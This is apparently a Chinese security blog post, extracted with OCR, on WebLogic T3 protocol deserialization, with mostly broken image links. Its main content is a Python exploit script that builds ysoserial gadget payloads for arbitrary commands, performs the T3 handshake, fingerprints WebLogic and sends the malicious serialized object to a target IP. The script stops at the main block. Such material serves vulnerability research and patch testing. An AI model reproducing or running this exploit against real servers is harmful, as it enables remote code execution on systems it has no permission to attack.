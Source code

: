 ![image-20240618145902485](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240618145902485.png)

继续看ServerChannelInputStream，是一个内部类，但是里面重写了**resolveClass()方法**

```
// 检查解析出来的Java类与要解析的类是否具有相同的serialVersionUID
```

![image-20240618150313202](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240618150313202.png)

其中在构造方法中，调用getServerChannel函数处理T3协议，获取socket相关信息
[  ](https://xzfile.aliyuncs.com/media/upload/picture/20231020163724-e48e54b0-6f23-1.png)
![image-20240618151333147](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240618151333147.png)


![image-20240618152245048](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240618152245048.png)

### exp

```java
from os import popen
import struct  # 负责大小端的转换
import subprocess
from sys import stdout
import socket
import re
import binascii

def generatePayload(gadget, cmd):
    YSO_PATH = "C:\\Users\\c'x'k\\Desktop\\yso\\ysoserial-master\\target\\ysoserial-0.0.6-SNAPSHOT-all.jar"
    popen = subprocess.Popen(['C:/Program Files/Java/jdk1.8.0_65/bin/java.exe', '-jar', YSO_PATH, gadget, cmd], stdout=subprocess.PIPE)
    return popen.stdout.read()

def T3Exploit(ip, port, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, port))
    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n"
    sock.sendall(handshake.encode())
    data = sock.recv(1024)
    data += sock.recv(1024)
    compile = re.compile("HELO:(.*).0.false")
    print(data.decode())
    match = compile.findall(data.decode())
    if match:
        print("Weblogic: " + "".join(match))
    else:
        print("Not Weblogic")
        return
    header = binascii.a2b_hex(b"00000000")
    t3header = binascii.a2b_hex(b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006")
    desflag = binascii.a2b_hex(b"fe010000")
    payload = header + t3header + desflag + payload


    payload = struct.pack(">I", len(payload)) + payload[4:]

    print(payload)
    sock.send(payload)

if __name__ == "__main__":
    ip = "192.168.236.130"
```